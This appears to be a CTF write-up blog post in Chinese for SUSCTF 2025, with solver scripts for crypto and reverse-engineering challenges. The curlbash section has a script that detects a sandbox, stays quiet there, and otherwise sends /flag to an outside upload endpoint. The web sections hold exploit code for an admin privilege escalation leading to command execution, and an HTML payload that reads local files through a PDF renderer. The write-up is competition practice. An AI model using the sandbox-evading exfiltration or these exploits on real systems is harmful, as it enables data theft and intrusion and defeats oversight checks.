

+++
date = '2025-10-05'
draft = false
title = 'SUSCTF@2025 WriteUp'
slug = 'susctf-2025-writeup'
author = 'laboon'
tags = ['ctf-writeup','cybersecurity']
showtoc = true
showrightsidebar = true
rightSidebarWidgets = ["profile", "tags", "meta"]
sidebarAuthor = "laboon"
sidebarBio = "Happy Hacking"
+++

---



## Questionnaire

**Type:**  Misc / **Author:** SUSers / **Difficulty:** You name it

我爱抽奖

填写问卷，参与抽奖，发现抽奖人为flag

（by the way SUSCTF@2025新生赛的Questionnaire解题方式一样，在这里的wp里顺带提上

---

## curlbash / curlbash-revenge

**Type:** Misc / **Author:** 135e2, MaPl / **Difficulty:** Medium

沙盒逃逸，但是介于没有个人本地服务器使，借用 SUSCTF@2025 新生赛中的 ez_upload 服务。

curlbash 沙盒判定为没有网络连接和文件修改，需要注意临时文件的产生。

第一是在ez_upload中上传shell，生成url复制到curlbash中；第二是在curlbash沙盒本地使用curl发送post请求到cgi-bin/upload.py中，实现flag的外泄。

两者区别似乎只在于curlbash有概率随机到正常bash中运行，curlbash-revenge一定会进行沙盒内的试运行检验。

两者使用的脚本一致。

```bash
#!/bin/bash

if [ "$(head -n 1 "$0")" = "readonly LD_PRELOAD" ]; then
    # 沙盒环境 - 直接退出，不执行任何操作
    exit 0
fi

# 非沙盒环境 - 执行攻击：读取flag并通过POST上传
# 读取flag文件内容，同时捕获任何错误
FLAG_CONTENT=$(cat /flag 2>&1)
READ_STATUS=$?

# 如果读取失败，添加错误信息到内容中
if [ $READ_STATUS -ne 0 ]; then
    FLAG_CONTENT="读取flag失败: $FLAG_CONTENT
尝试读取的文件: /flag
当前目录: $(pwd)
文件列表: $(ls -la / 2>/dev/null || echo '无法列出文件')"
fi

# 使用POST请求上传flag到服务器（包含可能的错误信息）
curl -X POST \
  -H "Host: " \
  -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
  -H "Accept-Language: en-US,en;q=0.5" \
  -H "Accept-Encoding: gzip, deflate, br" \
  -H "Content-Type: multipart/form-data; boundary=---------------------------32407474064970574003632409366" \
  -H "Origin: http://" \
  -H "Connection: keep-alive" \
  -H "Referer: http:///" \
  -H "Cookie: deviceid=1759566206584; xinhu_mo_adminid=ojo0zx0zd0ojf0xx0odd0ojf0co0uu0co0xz0ojf0xx0zx0xp0cz013; xinhu_ca_adminuser=admin; xinhu_ca_rempass=0" \
  -H "Upgrade-Insecure-Requests: 1" \
  -H "Priority: u=0, i" \
  --connect-timeout 5 \
  --max-time 10 \
  --silent \
  --output /dev/null \
  --data-binary @- \
  "http:///cgi-bin/upload.py" <<EOF
-----------------------------32407474064970574003632409366
Content-Disposition: form-data; name="filename"

flag.txt
-----------------------------32407474064970574003632409366
Content-Disposition: form-data; name="file"; filename="flag.txt"
Content-Type: text/plain

$FLAG_CONTENT
-----------------------------32407474064970574003632409366--
EOF

# 确保脚本以成功状态退出
exit 0t 0
```

---

## easyjail

**Type:** Misc / **Author:** 135e2 / **Difficulty:** Easy

同样为上传脚本企图越狱，发现容器里面override.c覆盖了一些系统调用，如open、openat、openat2、connect等，并重定向connect到本地主机。还阻止了io_uring相关的系统调用。

cat无法使用，那就尝试更多读取命令

---

## eat-mian

**Type:** Misc / **Author:** 135e2 / **Difficulty:** Easy

所有的int会被替换为eat（print也会受到影响），所有的main都会被替换为mian，那就#define 后并且通过##脱离关键字判定。

运算符在预处理阶段会连接令牌，但源代码中这些字符是分开的。

---

## signin

**Type:** Misc / **Author:** 135e2 / **Difficulty:** Easy

使用正版软件提供的Adobe Ai打开

---

## 03-CrySignin

**Type:** Crypto / **Author:** huangx607087 / **Difficulty:** Easy

离散对数计算题，编写python计算

```python
from uuid import UUID

p = 1329596764371107264260948790524463667078201288962092988229220331099216972202747986235496117149730240332402358728798174199576808159410988077039863933883707283021432596510812652195899704038126374630854432891580277457310166342238907250055728526757955693768208634626765002269557414142205735568171344541059676587026552819564587252379527557854007769644766922798602628730499830452043996042865583066303024746135216694290599886977846557408057361447210602309239731866416103
q = 664798382185553632130474395262231833539100644481046494114610165549608486101373993117748058574865120166201179364399087099788404079705494038519931966941853641510716298255406326097949852019063187315427216445790138728655083171119453625027864263378977846884104317313382501134778707071102867784085672270529838293513276409782293626189763778927003884822383461399301314365249915226021998021432791533151512373067608347145299943488923278704028680723605301154619865933208051

A = [
    25,
    174452984258303193057816690721540872]

# 数据过大，为了wp美观截断部分

f_list = [1918960088698956294, 9790090016368776253, 5712089621786568700, 6395086836607095978, 13395359821305432149, 6935581236907516431, 1102031216932045752, 6635879311601126206, 3714321980736011078, 15836128008962214913, 8127363819140113096, 7150837326301378116, 2301382475146847508, 4422853550052985482, 983886175601183381, 2874821685196245659, 8552768305709300249, 8735037419902768574, 4521819437991659014, 4443477993698524851, 9369274523797623015, 295398076512931739, 7202226393147166950, 11640792518503488752, 16363584674613832944, 8185758274316043002, 3470086807173558987, 6473339065313023035, 16757468383870408988, 3613368893024245241, 283497555311258669, 8073546024723036723, 16044514663022776372, 3056185936045534099, 5371490231126358386, 10417233337448649857, 14988894660719079351, 2170868630633141702, 11567767206239792708, 4872932071457512050, 749953671721185348, 11300013727488080535, 9297611214744609221, 14558017806374365350, 15431119388118997899, 10208810834232061, 13062709079801625817, 5767984465638936259, 4433141858754704519, 2911340488421413890, 359293881823455903, 8536061022975222319, 10279422791265583506, 10977643133555087910, 5319527921723655159, 17891994554385837892, 13839961612402403543, 15967797483370787159, 13825187480874771959, 2935557399080847266, 5181689826578188811, 15113569483514108755, 12520749920823144260, 1]

w = 628550481726719207238059224168004047194886150003323240541353822564112147668747435330553760075701709437420789945037425876404249342930924025422381774347178430529274291224027254869784618613039825870331840394214382904038043810428040324775522236311775903666450690150329647205572567656284622818263551999274230072702048289942926180848790267607610252699010646806464718640306067094068224721721639089916568299438147182628789327890383568814675395585318110593251909956935848

V = 1168285157735749673680052358588498128648818976941744935382644433874004718379412814121825494288156223441085244523535568476860575341802548353999755169136261962076592678551032750749623970991341130851145052258865429731375930218652353290070994131257900096204042664974252476055337893419066984535304683071214143310429555177898027222097685945204668792284136068205636682184322910808135105625992793283035477289904580003665598463458768041775285939783002218095955597476149059

# Step 1: Compute the quotient polynomial Q(x) and remainder f(w) modulo q
b = [0] * 63  # coefficients for Q(x), from x^0 to x^62
# Start from the highest coefficient
b[62] = f_list[63]  # a_63
# Now compute from i=61 down to 0
for i in range(61, -1, -1):
    b[i] = (f_list[i+1] + w * b[i+1]) % q

# Compute remainder f(w)
f_w = (f_list[0] + w * b[0]) % q

# Step 2: Compute B = g^Q(a) mod p
B = 1
for i in range(63):  
    B = (B * pow(A[i], b[i], p)) % p

# Step 3: Compute k = inverse(f(w), q)
k = pow(f_w, -1, q)

# Step 4: Compute T = V * B^{-1} mod p
B_inv = pow(B, -1, p)
T = (V * B_inv) % p

# Step 5: Compute ANS = T^k mod p
ANS = pow(T, k, p)

# Step 6: Compute flag_int = ANS % 2^128
flag_int = ANS % (2**128)

# Step 7: Convert to UUID
flag = UUID(int=flag_int)
print(flag)
```

计算得到(需要经过susctf{}套壳) 1ad56138-0990-550f-8b54-50c9800f9d5f

---

## 04-Broadcast_1

**Type:** Crypto / **Author:** huangx607087 / **Difficulty:** Easy

1. 收集公共种子和样本数据：从服务器获取公共种子`seedA`,发送1096次操作1请求（548×2），收集`A*s + e`形式的样本

2. 重建矩阵A：使用相同的`seedA`初始化随机数生成器。生成128×128矩阵A（元素在0-99范围内）

3. 平均样本消除噪声：对收集到的1096个样本向量进行平均，对平均向量的每个分量四舍五入到最接近的整数

4. 求解秘密向量s：计算矩阵A的逆（模p=31337），计算`s = A⁻¹ × (平均向量)`

5. 提取flag：对于s的每个分量`s[i]`，计算`c = s[i] mod 200`，将c转换为对应的ASCII字符

```python
import random
import numpy as np
from pwn import *
import re

def solve_without_sage(public_seed, samples):
    n = 128
    p = 31337

    # 使用公共种子重建矩阵A
    rng = random.Random()
    rng.seed(public_seed.encode())

    # 生成矩阵A
    while True:
        A = np.zeros((n, n), dtype=np.int64)
        for i in range(n):
            for j in range(n):
                A[i, j] = rng.randint(0, 99)

        # 检查矩阵是否可逆（满秩）
        if np.linalg.matrix_rank(A) == n:
            break

    # 平均样本以消除噪声
    avg_vector = np.round(np.mean(samples, axis=0)).astype(np.int64)

    # 计算模逆函数
    def mod_inv(a, modulus):
        # 扩展欧几里得算法
        t, new_t = 0, 1
        r, new_r = modulus, a
        while new_r != 0:
            quotient = r // new_r
            t, new_t = new_t, t - quotient * new_t
            r, new_r = new_r, r - quotient * new_r
        if r > 1:
            return None  # 不可逆
        return t % modulus

    # 直接计算模p下的逆矩阵
    # 使用高斯-约当消元法计算模逆矩阵
    def mod_matrix_inv(matrix, modulus):
        n = matrix.shape[0]
        # 创建增广矩阵 [matrix | I]
        aug = np.hstack((matrix, np.eye(n, dtype=np.int64)))
        aug = aug % modulus

        for i in range(n):
            # 寻找主元
            pivot = -1
            for j in range(i, n):
                if aug[j, i] != 0:
                    pivot = j
                    break
            if pivot == -1:
                return None  # 矩阵不可逆

            # 交换行
            aug[[i, pivot]] = aug[[pivot, i]]

            # 归一化主元行
            inv = mod_inv(aug[i, i], modulus)
            if inv is None:
                return None
            aug[i] = (aug[i] * inv) % modulus

            # 消元
            for j in range(n):
                if j != i:
                    factor = aug[j, i]
                    aug[j] = (aug[j] - factor * aug[i]) % modulus

        # 返回逆矩阵部分
        return aug[:, n:2*n]

    # 计算模p下的逆矩阵
    A_inv = mod_matrix_inv(A, p)
    if A_inv is None:
        print("矩阵A在模p下不可逆")
        return None

    # 求解s = A⁻¹ * avg_vector (mod p)
    s_vector = np.dot(A_inv, avg_vector) % p

    # 提取flag
    flag_chars = []
    for i in range(n):
        char_code = int(s_vector[i]) % 200
        if 32 <= char_code <= 126:  # 只接受可打印字符
            flag_chars.append(chr(char_code))
        else:
            flag_chars.append('?')  # 不可打印字符用?代替

    flag_str = ''.join(flag_chars)
    flag_match = re.search(r'flag\{[^}]+\}', flag_str)
    return flag_match.group(0) if flag_match else flag_str

def main():
    # 连接服务器
    r = remote('', )  # 替换为实际服务器地址
    context.log_level = 'debug' # 替换为实际服务器地址

    # 获取公共种子
    seed_line = r.recvline().decode().strip()
    public_seed = seed_line.split(':')[1]
    print(f"Public Seed: {public_seed}")

    # 收集样本
    samples = []
    for i in range(1096):  # 548×2=1096
        r.sendlineafter(b'Give me your choice>', b'1')
        sample_line = r.recvline().decode().strip()
        try:
            sample = list(map(int, sample_line.strip('[]').split(',')))
            samples.append(sample)
            print(f"Collected sample {i+1}/1096")
        except Exception as e:
            print(f"Error parsing sample: {e}")
            break

    # 解决问题
    flag = solve_without_sage(public_seed, samples)
    print("Flag:", flag)

    r.close()

if __name__ == '__main__':
    main()
```

---

## am i admin?

**Type:** Web / **Author:** 135e2 / **Difficulty:** Easy

go语言json解析的字段大小写不敏感，可以通过构造"isadmin"来进行权限升级。

先注册账户，获得cookies，在进行命令注入，随机用户名方便调试。

```python
import json
import random
import string
import requests

def generate_random_username(length=8):
    """生成随机用户名"""
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for _ in range(length))

def exploit():
    target_url = ""  # 修改为目标服务器的URL
    command = "cat /flag"  # 要执行的命令

    # 生成随机用户名
    username = generate_random_username()
    password = "password123"  # 固定密码

    print(f"使用用户名: {username}")

    # 注册用户，包含isadmin字段设置为true
    register_url = f"{target_url}/register"
    register_data = {
        "username": username,
        "password": password,
        "isadmin": True
    }
    response = requests.post(register_url, json=register_data)
    if response.status_code != 200:
        print(f"注册失败: {response.text}")
        return False
    print("注册成功")

    # 登录用户，获取会话Cookie
    login_url = f"{target_url}/login"
    login_data = {
        "username": username,
        "password": password
    }
    response = requests.post(login_url, json=login_data)
    if response.status_code != 200:
        print(f"登录失败: {response.text}")
        return False
    print("登录成功")
    session_cookie = response.cookies.get('session_id')
    if not session_cookie:
        print("未能获取会话Cookie")
        return False
    print(f"会话Cookie: {session_cookie}")

    # 执行命令
    run_url = f"{target_url}/run"
    run_data = {
        "cmd": "sh",
        "args": ["-c", command]
    }
    cookies = {'session_id': session_cookie}
    response = requests.post(run_url, json=run_data, cookies=cookies)
    if response.status_code != 200:
        print(f"命令执行失败: {response.text}")
        return False
    result = response.json()
    print("命令执行结果:")
    print(result.get('output', ''))
    if 'error' in result:
        print(f"错误: {result['error']}")
    return True

if __name__ == '__main__':
    exploit()
```

---

## am i admin? 2

**Type:** Web / **Author:** 135e2 / **Difficulty:** Easy

漏洞在于RegisterHandler和LoginHandler中的字符串检查是大小写敏感的，而JSON反序列化对于没有标签的字段是大小写不敏感的。因此，我们可以使用"isAdmin"（小写）来绕过字符串检查，并在注册时设置IsAdmin为true。

```python
import json
import random
import string

import requests


def generate_random_username(length=8):
    """生成随机用户名"""
    return ''.join(random.choices(string.ascii_lowercase, k=length))

def exploit():
    # 设置目标URL - 根据需要修改这里
    target_url = "http://"

    # 生成随机用户名和密码
    username = generate_random_username()
    password = generate_random_username()

    print(f"[*] 使用用户名: {username}, 密码: {password}")
    print(f"[*] 目标: {target_url}")

    # 1. 注册具有管理员权限的用户
    register_url = f"{target_url}/register"
    register_data = {
        "username": username,
        "password": password,
        "isAdmin": True  # 使用小写绕过检查
    }

    try:
        response = requests.post(
            register_url, 
            json=register_data,
            headers={"Content-Type": "application/json"},
            timeout=10
        )

        if response.status_code != 200:
            print(f"[-] 注册失败: {response.status_code} - {response.text}")
            return False

        print("[+] 用户注册成功")
    except Exception as e:
        print(f"[-] 注册请求错误: {e}")
        return False

    # 2. 登录获取会话Cookie
    login_url = f"{target_url}/login"
    login_data = {
        "username": username,
        "password": password
    }

    try:
        response = requests.post(
            login_url,
            json=login_data,
            headers={"Content-Type": "application/json"},
            timeout=10
        )

        if response.status_code != 200:
            print(f"[-] 登录失败: {response.status_code} - {response.text}")
            return False

        # 获取session cookie
        session_cookie = response.cookies.get("session_id")
        if not session_cookie:
            print("[-] 未获取到session_id cookie")
            return False

        print(f"[+] 登录成功，获取到session_id: {session_cookie}")
    except Exception as e:
        print(f"[-] 登录请求错误: {e}")
        return False

    # 3. 使用管理员权限执行命令
    run_url = f"{target_url}/run"

    # 执行命令 - 可以根据需要修改这些命令
    commands_to_try = [
        {"cmd": "cat", "args": ["/flag"]},
    ]

    for command_data in commands_to_try:
        try:
            print(f"[*] 执行命令: {command_data['cmd']} {' '.join(command_data['args'])}")
            response = requests.post(
                run_url,
                json=command_data,
                headers={"Content-Type": "application/json"},
                cookies={"session_id": session_cookie},
                timeout=10
            )

            if response.status_code == 200:
                print("[+] 命令执行成功!")
                result = response.json()
                print(f"输出: {result.get('output', '无输出')}")
                if 'error' in result:
                    print(f"错误: {result['error']}")
            else:
                print(f"[-] 命令执行失败: {response.status_code} - {response.text}")

            print("-" * 50)

        except Exception as e:
            print(f"[-] 命令执行请求错误: {e}")

    return True

if __name__ == "__main__":
    if exploit():
        print("[+] 利用完成!")
    else:
        print("[-] 利用失败")
```

---

## easyprint

**Type:** Web / **Author:** 135e2 / **Difficulty:** Easy

查看https://github.com/JazzCore/python-pdfki，发现居然允许使用

meta name="pdfkit-page-size" content="Legal"标签来操作wkhtmltopdf的配置

先使用burpsuit抓包，仿造post请求，观察源代码发现被用来生成pdf的string在html_content字段。

编写html读取到flag

```python
import requests
import urllib.parse

def diagnose_pdf_generation():
    # 目标URL
    url = "http:///generate_pdf"

    # 请求头
    headers = {
        "Host": "",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:143.0) Gecko/20100101 Firefox/143.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded",
        "Origin": "http://",
        "Sec-GPC": "1",
        "Connection": "keep-alive",
        "Referer": "http:///",
        "Upgrade-Insecure-Requests": "1",
        "DNT": "1",
        "Priority": "u=0, i"
    }

    # 简单的HTML内容
    html_content = '''
<!DOCTYPE html>
<html>
<head>
    <meta name="pdfkit-enable-local-file-access" content=""/>
    <script>
        function readFile(filePath) {
            var xhr = new XMLHttpRequest();
            xhr.open("GET", filePath, false);
            xhr.send();
            return xhr.responseText;
        }
        document.write('<pre>' + readFile('file:///flag') + '</pre>');
    </script>
</head>
<body>
</body>
</html>

'''

    # 编码HTML内容
    encoded_html = urllib.parse.quote(html_content)

    # 请求体
    data = f"html_content={encoded_html}"

    try:
        # 发送POST请求
        response = requests.post(url, headers=headers, data=data, timeout=30)

        print("=== 响应状态 ===")
        print(f"状态码: {response.status_code}")

        print("\n=== 响应头 ===")
        for key, value in response.headers.items():
            print(f"{key}: {value}")

        print("\n=== 响应内容前200字节 ===")
        content_preview = response.content
        print(content_preview)

        print("\n=== 响应内容类型 ===")
        content_type = response.headers.get('Content-Type', '未知')
        print(f"内容类型: {content_type}")

        # 尝试保存文件
        if response.status_code == 200:
            with open('diagnostic_output.pdf', 'wb') as f:
                f.write(response.content)
            print("\n文件已保存为 'diagnostic_output.pdf'")

            # 检查文件开头是否为PDF格式
            if len(response.content) >= 4:
                file_header = response.content[:4]
                if file_header == b'%PDF':
                    print("文件开头是PDF格式标识符")
                else:
                    print(f"文件开头不是PDF格式: {file_header}")

    except requests.exceptions.RequestException as e:
        print(f"请求发生错误: {e}")

if __name__ == "__main__":
    diagnose_pdf_generation()
```

---

## android-native

**Type:** Reverse / **Author:** 可燃乌龙茶 / **Difficulty:** Easy

使用jadx逆向，发现部分函数(checkFlag)被藏在本地库libctf_re.so中，使用ghidra对libctf_re.so进行逆向分析。

找到FUN_00100a60是一个经过混淆或加密的RC4算法实现，使用硬编码密钥（`&DAT_00102fe0`）来生成S盒，然后使用该S盒对输入字符串进行加密，并将结果与硬编码目标值（`&DAT_00102ff0`）比较。如果输入字符串正确（即加密后匹配目标值），则返回1，否则返回0。

（反编译导出后代码部分，仅供展示

发现void _INIT_o(void)，对存贮在本地的变量进行异或操作，并且发现密文存储地址，编写python进行解密

解密步骤

1. ​**​提取原始密钥数据​**​：从文件偏移`0xfe0`读取至少50字节（以确保覆盖密钥字符串的null终止符）。

2. ​**​修改密钥数据​**​：对原始密钥数据的索引1到12应用异或操作（异或值依次为1, 1, 4, 5, 1, 4, 1, 9, 1, 9, 8, 1）（好独特的数字）。

3. ​**​获取有效密钥​**​：从修改后的数据中查找null终止符，确定密钥字符串。

4. ​**​提取密文​**​：从文件偏移`0xff0`读取44字节密文。

```python
def rc4_decrypt(key, ciphertext):
    # Initialize S-box
    s = list(range(256))
    j = 0
    for i in range(256):
        j = (j + s[i] + key[i % len(key)]) % 256
        s[i], s[j] = s[j], s[i]

    # Generate key stream
    i = 0
    j = 0
    plaintext = []
    for byte in ciphertext:
        i = (i + 1) % 256
        j = (j + s[i]) % 256
        s[i], s[j] = s[j], s[i]
        k = s[(s[i] + s[j]) % 256]
        plaintext.append(byte ^ k)

    return bytes(plaintext)

# 文件路径，假设为libnative.so
file_path = 'libctf_re.so'

# 读取原始密钥数据（从偏移0xfe0开始）
with open(file_path, 'rb') as f:
    f.seek(0xfe0)
    raw_key_data = list(f.read(50))  # 读取50字节以确保覆盖null终止符

# 异或值列表（用于索引1到12）
xor_values = [1, 1, 4, 5, 1, 4, 1, 9, 1, 9, 8, 1]

# 应用异或操作
for i in range(1, 13):
    if i < len(raw_key_data):
        raw_key_data[i] ^= xor_values[i-1]

# 查找null终止符以确定密钥长度
try:
    null_index = raw_key_data.index(0)
    key_bytes = bytes(raw_key_data[:null_index])
except ValueError:
    key_bytes = bytes(raw_key_data)  # 如果没有null，使用所有字节

# 读取密文（从偏移0xff0开始，44字节）
with open(file_path, 'rb') as f:
    f.seek(0xff0)
    ciphertext = f.read(44)

# RC4解密
plaintext = rc4_decrypt(key_bytes, ciphertext)

# 输出结果
try:
    flag = plaintext.decode('utf-8')
    print("Flag:", flag)
except UnicodeDecodeError:
    print("Decrypted bytes (hex):", plaintext.hex())
    print("Decrypted bytes:", plaintext)
```

---

## ezsignin

**Type:** Reverse / **Author:** menduogesei / **Difficulty:** Easy

使用ghidra进行反编译，发现FUN_000117a2主函数，通过计算发现移动到'o'可以通过11122233221111移动达成，里面也有谜之字符窜。

"2wHFw6XRQFJexwYcizWFJVU87GnPPbuRZF99t8884SxTeRptgvAmfzdqmE9skCSRbEMUc8r5WcGQ4aq8gJQ2fpUQgiiNvkEQXL4GoQ5rBZfejYFtEpTA5x1kybteneAuECqp3uLCDnuU4GwD1kKet8Bmqb4eidPWEcr6bSNNU3wr5xxtHpc43TyHMSKggBRZrPlease enter the steps: "

分析FUN_000114eb这个函数实现了 ​​Base58 编码​​算法，用于将输入数据转换为 Base58 格式的字符串。

分析FUN_0001148d这个函数对输入数据逐字节异或0x66（十六进制），属于简单对称加密。

分析FUN_000116e2这个函数进行RC4加密 with key "YourKey"

之前的11122233221111步骤序列中的每个字符对应一个操作：

- '1'：调用FUN_0001148d，即异或0x66

- '2'：调用FUN_000114eb，即Base58编码

- '3'：调用FUN_000116e2，即RC4加密（使用密钥"YourKey"）

了解加密方式之后，对谜之字符窜进行解密：

```python
import base58

def main():
    # 硬编码的Base58字符串（193个字符）
    encoded_str = "2wHFw6XRQFJexwYcizWFJVU87GnPPbuRZF99t8884SxTeRptgvAmfzdqmE9skCSRbEMUc8r5WcGQ4aq8gJQ2fpUQgiiNvkEQXL4GoQ5rBZfejYFtEpTA5x1kybteneAuECqp3uLCDnuU4GwD1kKet8Bmqb4eidPWEcr6bSNNU3wr5xxtHpc43TyHMSKggBRZr"

    try:
        # 第一次Base58解码
        decoded_1 = base58.b58decode(encoded_str)
        print(f"第一次解码后长度: {len(decoded_1)}")

        # 第二次Base58解码
        decoded_2 = base58.b58decode(decoded_1)
        print(f"第二次解码后长度: {len(decoded_2)}")

        # 第三次Base58解码
        decoded_3 = base58.b58decode(decoded_2)
        print(f"第三次解码后长度: {len(decoded_3)}")

        # 第四次Base58解码
        decoded_4 = base58.b58decode(decoded_3)
        print(f"第四次解码后长度: {len(decoded_4)}")

        # 第五次Base58解码
        decoded_5 = base58.b58decode(decoded_4)
        print(f"第五次解码后长度: {len(decoded_5)}")

        # 对解码后的字节进行异或0x66操作
        xor_result = bytes([b ^ 0x66 for b in decoded_5])

        # 尝试解码为UTF-8字符串
        flag = xor_result.decode('utf-8')
        print(f"\n最终Flag: {flag}")

    except Exception as e:
        print(f"处理过程中出现错误: {e}")
        print("这可能是因为解码次数不正确或数据格式问题")

if __name__ == "__main__":
    main()
```

---

## 一个饼干人

**Type:** Reverse / **Author:** 318 / **Difficulty:** Easy

先使用jadx进行反编译，发现为unity游戏制作成的apk。

根据提示：黄金芝士饼干说ab is so delicious，注意到assert目录下有delicious的unity assetbundle包。

使用工具www.github.com/AssetRipper/AssetRipper进行解包

提取图片，组合拼接，适当联想发现flag：susctf{cookies_GOOD}

## 写在最后

- 突然发现截图保存一直都是有的，但是暂时没有图床，还是只挑几张重要有意思的放在里面
- 本次正赛为期三天，高强度打了一天半，中间一天出去玩了。过程中发现自己还是有很多不足之处，没有血、完成的也就基本上是签到+基础题目。现在回顾下来感觉几道pentest还是很有机会能拿下的，其他不懂还是不懂。

### 致谢

> 预祝 SUSCTF@2026 越办越好 🎉
